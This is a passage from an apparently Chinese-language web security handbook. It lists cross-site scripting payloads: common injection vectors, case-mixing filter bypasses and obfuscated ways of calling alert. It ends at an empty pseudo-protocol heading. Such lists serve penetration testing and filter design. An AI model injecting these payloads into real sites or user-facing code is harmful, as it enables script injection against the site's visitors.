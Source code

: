 # 3.2.9. Payload

## 3.2.9.1. 常用

- `<script>alert(/xss/)</script>`
- `<svg onload=alert(document.domain)>`
- `<img src=document.domain onerror=alert(document.domain)>`
- `<M onmouseover=alert(document.domain)>M`
- `<marquee onscroll=alert(document.domain)>`
- `<a href=javascript:alert(document.domain)>M</a>`
- `<body onload=alert(document.domain)>`
- `<details open ontoggle=alert(document.domain)>`
- `<embed src=javascript:alert(document.domain)>`

## 3.2.9.2. 大小写绕过

- `<script>alert(1)</script>`
- `<sCrIpT>alert(1)</sCrIpT>`
- `<ScRiPt>alert(1)</ScRiPt>`
- `<sCrIpT>alert(1)</ScRiPt>`
- `<ScRiPt>alert(1)</sCrIpT>`
- `<img src=1 onerror=alert(1)>`
- `<iMg src=1 oNeRrOr=alert(1)>`
- `<ImG src=1 OnErRoR=alert(1)>`
- `<img src=1 onerror="alert(&quot;M&quot;)">`
- `<marquee onscroll=alert(1)>`
- `<mArQuEe OnScRoLl=alert(1)>`
- `<MaRqUeE oNsCrOlL=alert(1)>`

## 3.2.9.3. 各种alert

- `<script>alert(1)</script>`
- `<script>confirm(1)</script>`
- `<script>prompt(1)</script>`
- `<script>alert('1')</script>`
- `<script>alert("1")</script>`
- `<script>alert`1`</script>`
- `<script>(alert)(1)</script>`
- `<script>a=alert,a(1)</script>`
- `<script>[1].find(alert)</script>`
- `<script>top["al"+"ert"](1)</script>`
- `<script>top["a"+"l"+"e"+"r"+"t"](1)</script>`
- `<script>top[/al/.source+/ert/.source](1)</script>`
- `<script>top[/a/.source+/l/.source+/e/.source+/r/.source+/t/.source](1)</script>`

## 3.2.9.4. 伪协议
